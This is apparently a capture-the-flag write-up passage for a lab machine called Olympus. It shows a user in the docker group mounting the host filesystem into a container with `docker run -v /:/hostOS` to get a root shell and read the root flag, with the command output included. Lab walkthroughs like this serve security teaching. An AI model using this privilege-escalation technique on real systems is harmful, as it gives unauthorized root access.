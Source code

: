 ```

...[snip]...
We're a member of the (docker) group - could possibly misuse these rights!:
uid=1000(prometheus) gid=1000(prometheus) groups=1000(prometheus),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),111(bluetooth),999(docker)
...[snip]...

```

### root File System Access Via docker Group

To get access to the entire local file system, we’ll use docker to run one of the images, and we’re going to mount the local file system root in that image, and give ourselves a shell to that system.

`docker run` looks like this: `$ docker run [OPTIONS] IMAGE[:TAG|@DIGEST][COMMAND] [ARG...]` [ref](https://docs.docker.com/engine/reference/run/#general-form)

So we’ll run `docker run -v /:/hostOS -i -t rodhes bash`:
- `-v /:/hostOS` - mount the host’s `/` as `/hostOS` inside the image
- `-i` - interactive
- `-t` - create a tty
- `rodhes` - the name of the image to run, got from `docker ps above`
  - I picked this one because it doesn’t have shell access by others, so it’s less likely to accidentally give the root flag to someone else
- `bash` - command to run

And this does give root access:

```

prometheus@olympus:/dev/shm$ docker run -v /:/hostOS -i -t  rodhes bash
cat: /etc/hostip: No such file or directory

root@6e53f07f626a:/# id
uid=0(root) gid=0(root) groups=0(root)

root@6e53f07f626a:/# cd /hostOS/

root@6e53f07f626a:/hostOS# ls
bin  boot  dev  etc  home  initrd.img  initrd.img.old  lib  lib64  lost+found  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var  vmlinuz  vmlinuz.old

```

### root.txt

And with full read access to the file system we can grab the flag:

```

root@6e53f07f626a:/hostOS/root# wc -c root.txt
33 root.txt

root@6e53f07f626a:/hostOS/root# cat root.txt
aba48699...

```
